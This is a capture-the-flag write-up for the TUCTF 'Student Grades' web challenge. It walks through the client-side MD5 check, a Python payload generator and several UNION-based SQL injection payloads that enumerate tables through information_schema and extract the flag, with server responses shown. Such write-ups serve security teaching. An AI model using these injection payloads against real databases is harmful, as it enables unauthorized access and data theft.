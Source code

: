 # Student Grades (Web, 50pts)

We are trying to find out what our grade was, but we don't seem to be in the database...

Can you help us out?

http://104.199.151.39/index.html


## Solution

We can see web application to check some user grades:

![Student Grades](assets/sg1.png)


When username is entered and 'Check my grades' pressed, little JavaScript code is executed sending AJAX request after some additional data manipulation:

```JavaScript
document.getElementById('submit').addEventListener('click',
                        function(event){
                          event.preventDefault();
                          var input = document.getElementById('info');
                          //var query = 'SELECT * from Names where name=\'' + input.value + '\'';
                          var inp_str = input.value;
                          inp_str = inp_str.replace(/\W+/g, " ");
                          var md5_str = md5(inp_str);
                          var send_str = inp_str+' '+md5_str;
                          var post_data = {name: send_str, submit:1};
                          $.ajax({
                              type: "POST",
                              url: "/postQuery.php",
                              data: post_data,
                              success: function(data){document.getElementById('results').innerHTML=data;}
                          });
                        }
                      );
```        
                      
After quick investigation of response, there's SQL query in the comment:

![Student Grades](assets/sg3.png)
                      
                      
There's obvious SQL Injection flaw in this query (no data sanitization, used LIKE '%' and so on).


![Student Grades](assets/sg2.png)


I've created simple script to generate payloads and prepare them using formula find in JavaScript code above:

```Python
#!/usr/bin/python
import hashlib

p = "boby' or '1'='1' order by 2,'"

h = hashlib.md5(p)
print "\n\n" + p + "+" + h.hexdigest()

```


First payload finds number of columns:

```
p = "boby' or '1'='1' order by 2,'"
```

Second payload execute UNION based SQL Injection:

```
p = "boby' and '1'='2' union select 1,'"
```

Next grabs table(s) and column(s):

```
name=boby' and '1'='2' union select group_concat(concat(table_name,0x20,column_name)),1 from information_schema.columns where table_schema=database() order by '+ba8883ed612a3d0b752759f01bbbf856
```


Result:
```
<!--HI!--><!--Good auth!--><!--SELECT * FROM tuctf_grades WHERE name LIKE '%boby' and '1'='2' union select group_concat(concat(table_name,0x20,column_name)),1 from information_schema.columns where table_schema=database() order by '%';--><tr><th>Name</th><th>Grade</th></tr><tr><td>tuctf_grades name,tuctf_grades grade,tuctf_info item,tuctf_info value,tuctf_junk item,tuctf_junk owner</td><td>1</td></tr>
```

Let's try table _tuctf___junk_:

```
name=boby' and '1'='2' union select group_concat(concat(item,0x20,owner)),1 from tuctf_junk order by '+ef78413334c102b4fc1426ec45325594
```

Result:

```
<!--HI!--><!--Good auth!--><!--SELECT * FROM tuctf_grades WHERE name LIKE '%boby' and '1'='2' union select group_concat(concat(item,0x20,owner)),1 from tuctf_junk order by '%';--><tr><th>Name</th><th>Grade</th></tr><tr><td>A random server Bob</td><td>1</td></tr>
```

Nope. No flag in this table.


Next, _tuctf___info_ table:

```
name=boby' and '1'='2' union select group_concat(concat(item,0x20,value)),1 from tuctf_info order by '+f4028ff3dafb50d3853d22ced070d8cc
```

And, here we go :)

```
<!--HI!--><!--Good auth!--><!--SELECT * FROM tuctf_grades WHERE name LIKE '%boby' and '1'='2' union select group_concat(concat(item,0x20,value)),1 from tuctf_info order by '%';--><tr><th>Name</th><th>Grade</th></tr><tr><td>flag TUCTF{v4ccinate_y0ur_databa5e5}</td><td>1</td></tr>
```


Flag:
```
TUCTF{v4ccinate_y0ur_databa5e5}
```
